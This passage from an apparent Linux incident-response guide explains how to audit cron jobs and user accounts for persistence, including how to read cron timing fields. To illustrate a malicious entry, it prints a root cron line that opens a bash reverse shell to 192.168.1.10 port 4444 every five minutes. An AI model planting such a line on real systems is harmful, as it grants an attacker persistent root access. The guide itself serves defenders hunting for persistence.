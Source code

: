 ### ls /etc/cron.d/ && cat /etc/cron.d/* && crontab -l

This set of commands helps identify persistently scheduled tasks, both system-wide and per user.

```bash
ls /etc/cron.d/ && cat /etc/cron.d/* && crontab -l
```

- `ls /etc/cron.d/`: lists system-defined cronjobs.  
- `cat /etc/cron.d/*`: shows the contents of cronjobs in that path.  
- `crontab -l`: lists the current user's scheduled tasks.  

Malicious cronjob example:
```bash
*/5 * * * * root bash -i >& /dev/tcp/192.168.1.10/4444 0>&1
```
**What to look for:** Tasks run by `root` every few minutes without clear justification, or scripts with unusual paths like `/tmp`, `/opt/.scripts/`, `.backup`, `.monitor`

### How to know how often a cronjob runs?

A cronjob's syntax has **5 time fields**:

| Field        | Value | Meaning                                   |
|--------------|-------|-------------------------------------------|
| Minute       | `*/5` | Every 5 minutes (00, 05, 10, ..., 55)     |
| Hour         | `*`   | Every hour (00–23)                        |
| Day of month | `*`   | Every day of the month                    |
| Month        | `*`   | Every month                               |
| Day of week  | `*`   | Every day of the week                     |

To verify or visualize it, you can use tools like: [https://crontab.guru](https://crontab.guru). Just copy and paste `*/5 * * * *` and you'll see a clear text explanation.

## Step 4: Review Users and Access

One of the most common persistence methods is creating hidden users or abusing existing accounts with active shells. It's essential to review who is allowed interactive access to the system.

**Key questions:**
- Are there unknown or undocumented accounts?
- Are there users with unusual home directories or shells?
- Has any account been created with a generic name (e.g., backup, test, data, etc.)?
- Are system accounts configured to allow interactive access?

### cat /etc/passwd | grep -v "/usr/sbin/nologin"

Shows system users who **have access to an interactive shell**, excluding system or locked accounts (those using `/usr/sbin/nologin`).

```bash
cat /etc/passwd | grep -v "/usr/sbin/nologin"
```
